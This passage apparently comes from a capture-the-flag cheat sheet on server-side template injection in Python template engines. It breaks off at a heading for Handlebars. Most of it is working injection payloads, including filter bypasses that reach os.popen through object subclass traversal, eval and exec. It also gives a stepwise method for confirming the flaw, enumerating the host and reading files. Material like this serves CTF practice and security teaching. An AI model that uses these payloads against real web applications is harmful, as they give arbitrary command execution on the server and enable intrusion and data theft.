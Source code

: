 ## Bypass Techniques

### Module Import Alternatives

```
${[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag.txt').read()}
```

### String Concatenation

```
${__import__('o'+'s').popen('cat /flag.txt').read()}
```

### Using Evaluated Code

```
${eval("__import__('os').popen('cat /flag.txt').read()")}
```

### Using Exec

```
<% exec("import os; x=os.popen('cat /flag.txt').read()") %>
${x}
```

## Practical Approach for CTFs

1. **Test for vulnerability**:
    
    - Use simple expressions like `${7*7}`
    - If evaluated, proceed with more complex payloads
2. **Explore the environment**:
    
    - List directories: `${__import__('os').popen('ls -la').read()}`
    - Check current user: `${__import__('os').popen('whoami').read()}`
3. **Find and read the flag**:
    
    - Search for flag: `${__import__('os').popen('find / -name "flag*" 2>/dev/null').read()}`
    - Read flag: `${__import__('os').popen('cat /flag.txt').read()}`
4. **If restricted**:
    
    - Try different ways to execute commands (subprocess, commands, etc.)
    - Use object traversal to bypass filters

Remember that in CTF scenarios, flag files may be named differently or located in non-standard directories, so enumeration is essential for success.

# SSTI for HandleBars (JS)

## Basic Detection
